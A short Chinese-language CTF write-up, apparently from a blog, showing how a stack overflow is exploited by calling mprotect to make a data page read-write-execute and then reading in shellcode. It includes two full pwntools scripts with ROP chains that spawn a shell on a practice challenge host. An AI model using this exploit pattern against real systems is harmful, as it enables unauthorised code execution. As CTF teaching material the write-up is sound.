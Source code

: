 另外一种方法，是使用mprotrct函数修改数据段为可读可写可执行，然后用ret2shellcode的方法来做

先看下数据段起止位置和长度

![image-20210324013926574](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736327.png)

```
int mprotect(const void *start, size_t len, int prot);
mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。
prot=7 是可读可写可执行
需要指出的是，指定的内存区间必须包含整个内存页（4K）。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍。
```

```
#用read函数读入shellcode
from pwn import *
#p = process('./pwn')
elf = ELF('./pwn')
p = remote('node3.buuoj.cn', 28810)
context.log_level = 'debug'
start = 0x080ea000
pop3 = 0x08063adb  # pop edi ; pop esi ; pop ebx ; ret
mprotect = 0x0806EC80
read_addr = elf.symbols['read']
payload = b'a'*0x38
payload += p32(mprotect)
payload += p32(pop3)
payload += p32(start)
payload += p32(0x2000)
payload += p32(0x7)  # rwx
payload += p32(read_addr) + p32(pop3) + p32(0) + p32(start) + p32(0x100) + p32(start)
p.sendline(payload)
payload2 = asm(shellcraft.sh(), arch='i386', os='linux')
p.sendline(payload2)
p.interactive()
```

```
#用gets函数读入shellcode
from pwn import *
p = process('./pwn')
elf = ELF('./pwn')
#p = remote('node3.buuoj.cn', 28810)
context.log_level = 'debug'
start = 0x080ea000
pop3_addr = 0x08063adb  # pop edi ; pop esi ; pop ebx ; ret
mprotect = 0x0806EC80
gets_addr = elf.symbols['gets']
payload1 = b'a'*0x38 + p32(mprotect) + p32(pop3_addr) + p32(start) + p32(0x2000) + p32(0x7) + p32(gets_addr) + p32(start) + p32(start)
p.sendline(payload1)
sleep(1)
payload2 = asm(shellcraft.sh(), arch='i386', os='linux')
p.sendline(payload2)
p.interactive()
```
